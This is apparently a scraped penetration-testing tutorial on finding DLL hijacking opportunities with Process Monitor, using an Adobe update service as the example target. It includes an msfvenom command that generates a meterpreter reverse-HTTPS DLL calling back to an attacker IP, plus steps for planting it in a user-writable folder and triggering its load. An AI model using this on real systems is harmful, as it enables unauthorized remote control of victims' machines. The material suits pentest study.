


Process Monitor
Prerequisite:
• On Windows 7 must be installed the update
KB3033929,
otherwise it will be unable to load a device driver(see here
https://rspydir.wordpress.com/2017/05/24/solved-unable-to-load-process-monitor-device-driver/)
Process Monitor(procmon)
Process Monitor(
Download) is a tool from SysInternal
Suite of Microsoft that can help us to
find vulnerable applications and
DLL's.
1. Because there are a lot of entries we have to filter for relevant results:
Filter→ Filter... OR
OR CTRL+L
◇ filter
for files(we are searching dll) not found from the applications we can apply this filter
◇ filter for a specific executable
3. As a result we will have a blank window
4. Since using Process Explorer we have
found that our process(
AdobeUpdateService.exe) is launched by a service(
AdobeUpdateService)
We have to open the
Services applet and find this
service
To be sure that is the service that we are searching we can check the process that it will launch
5. Now we have to
Stop and
Start the service, to monitor it on
Process Monitor
7.Process Monitor
have now generate a real time view of the action created by the process that we have Stop and reStarted
8. Stop the capture of the events
OR CTRL+L
Now we have to identify cases where the
application is looking for a DLL in a directory which we can write to, or modify
9. To see the DLL loaded by
the process we have to focus to:
◇
Operations(we can add them to the filter):
▪
CreateFile
▪ Load Image
10. To check which of the DLL can be injectable we
have to focus to
◇
Result:
▪ NAME NOT FOUND
◇
Path: ▪ DLL
that are NOT FOUND in the folder of the application but then successfully are loaded in another folder:
12. Drop our modified payload in the directory where
the application has not found the dll. This directory has to be be user writable!
We have to create the
payload with msfvenom
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.122 LPORT=443 -f dll -o /home/kali/Desktop/WTSAPI32.dll
13. Start a listening
handler on the attacker machine
15. To launch the exploitation we have different possibilities:
◇
Restart the Service
◇ Relaunch the application
◇ Wait for the system to be rebooted (if the executable
is associated with a service that starts at boot time)
◇ Wait that the user launch the affected
application
16. Our payload is been loaded successfully!
{kind=link}
{kind=link}
{kind=link}
{kind=link}